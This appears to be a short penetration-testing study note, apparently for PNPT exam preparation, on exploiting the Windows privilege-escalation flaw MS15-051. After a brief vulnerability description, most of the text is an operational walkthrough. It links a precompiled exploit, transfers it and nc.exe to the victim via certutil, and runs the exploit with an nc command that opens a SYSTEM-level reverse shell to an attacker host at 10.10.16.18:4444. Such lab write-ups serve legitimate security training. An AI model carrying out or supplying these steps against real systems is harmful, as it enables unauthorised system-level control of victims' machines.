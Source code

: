 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Tested payload
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

# Steps to prepare payload
1. Download the zip file -> Extract it to a folder
2. Use the exe file that maches the System Architecture of the victim's machine.

# Steps to exploit
1. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
2. Also copy nc.exe to this transfer folder
2. From victim's machine, get the nc.exe file and ms*.exe file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the ms15.exe file  
Assumptions: Attack machine: 10.10.16.18 / already run nc -nvlp 4444    
From Victim's machine: ms15.exe "nc.exe 10.10.16.18 4444 -e cmd.exe"  
From Attack machine - in the nc4444 screen -> will see connection with system privilege. 